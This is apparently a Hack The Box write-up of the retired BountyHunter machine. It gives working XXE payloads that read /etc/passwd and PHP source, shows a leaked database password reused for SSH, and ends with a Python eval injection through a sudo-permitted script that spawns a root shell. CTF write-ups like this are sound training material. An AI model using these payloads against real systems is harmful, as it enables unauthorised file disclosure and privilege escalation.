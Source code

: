 # BountyHunter

This is the write-up for the box BountyHunter that got retired at the 20th November 2021.
My IP address was 10.10.14.7 while I did this.

Let's put this in our hosts file:
```markdown
10.10.11.100    bountyhunter.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/bountyhunter.nmap 10.10.11.100
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 d44cf5799a79a3b0f1662552c9531fe1 (RSA)
|   256 a21e67618d2f7a37a7ba3b5108e889a6 (ECDSA)
|_  256 a57516d96958504a14117a42c1b62344 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Bounty Hunters
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The web service has a custom developed website and on the top right is a menu.
One of the menus _"Portal"_ forwards to _portal.php_, which is under development and contains another link to _log_submit.php_.

The title of the page is _"Bounty Report System - Beta"_ and has four input fields:

![Bounty report system](bountyhunter_web-1.png)

Lets search for hidden directories and PHP files with **Gobuster**:
```
gobuster -u http://10.10.11.100 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

It finds _db.php_, that has no contents when browsing there and the directory _/resources_ which contains JavaScript files and one _README.txt_ with a ToDo list:
```
Tasks:

[ ] Disable 'test' account on portal and switch to hashed password. Disable nopass.
[X] Write tracker submit script
[ ] Connect tracker submit script to the database
[X] Fix developer group permissions
```

By sending data to the form on _log_submit.php_ and intercepting the request with a proxy like **Burpsuite**, the request can be analyzed:
```
POST /tracker_diRbPr00f314.php HTTP/1.1
Host: 10.10.11.100
(...)

data=PD94bWwgIHZlcnNpb24(...)
```

The value of the parameter _data_ is Base64 encoded and when decoding, it shows that it is **XML** data:
```
<?xml  version="1.0" encoding="ISO-8859-1"?>
		<bugreport>
		<title>Test1</title>
		<cwe>Test2</cwe>
		<cvss>1</cvss>
		<reward>2</reward>
		</bugreport>
```

When seeing XML in a HTTP request, a recommendation is to test for **XML External Entity Injection (XXE)**.
Several payloads can be found on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection) and we can test a basic request:
```
<?xml  version="1.0" encoding="ISO-8859-1"?><!DOCTYPE replace [<!ENTITY example "Doe"> ]>
		<bugreport>
		<title>&example;</title>
		<cwe>Test2</cwe>
		<cvss>1</cvss>
		<reward>2</reward>
    </bugreport>
```

After Base64-encoding and URL-encoding the data, the entity will be parsed and displays _"Doe"_ in the specified tags.

Testing to retrieve _/etc/passwd_ file:
```
<?xml  version="1.0" encoding="ISO-8859-1"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
		<bugreport>
		<title>&test;</title>
		<cwe>Test2</cwe>
		<cvss>1</cvss>
		<reward>2</reward>
		</bugreport>
```

It works and the vulnerability can be used to read files of the web service like _db.php_.
As PHP files have many special characters, it is possible to extract them with a **PHP filter**:
```
<?xml  version="1.0" encoding="ISO-8859-1"?><!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>Test2</cwe>
		<cvss>1</cvss>
		<reward>2</reward>
```

The file can now be Base64-decoded and it contains credentials:
```
cat db.b64 | base64 -d
```
```php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
```

In the _/etc/passwd_ file, it showed the only user with shell access is _development_, so lets test if the password was reused for this user on SSH:
```
ssh development@10.10.11.100
```

The password was reused and login is possible.

## Privilege Escalation

When checking the `sudo` privileges, the user _development_ is able to execute a Python script as root:
```
User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

The Python script _ticketValidator.py_ loads a file that has to have specific conditions:
- File extension ends with _.md_
- Starts with _"# Skytrain Inc"_
- Starts with _"## Ticket to "_
- Starts with _"\_\_Ticket Code:\_\_"_
- Starts with "**"
- Ticket code % 7 == 4

At the end it uses the _eval_ function, which can be used to execute arbitrary code.

Creating the payload _inject.md_ as the script needs it:
```
# Skytrain Inc
## Ticket to  
__Ticket Code:__
**11+__import__("os").system("id")
```

Executing _ticketValidator.py_:
```
sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```
```
Please enter the path to the ticket file.
inject.md
Destination:
uid=0(root) gid=0(root) groups=0(root)
Invalid ticket.
```

The syntax is correct and it successfully executes the `id` command, so the payload can be used to execute `bash`:
```
(...)
**11+__import__("os").system("bash")
```

After executing _ticketValidator.py_, it starts a shell as root!
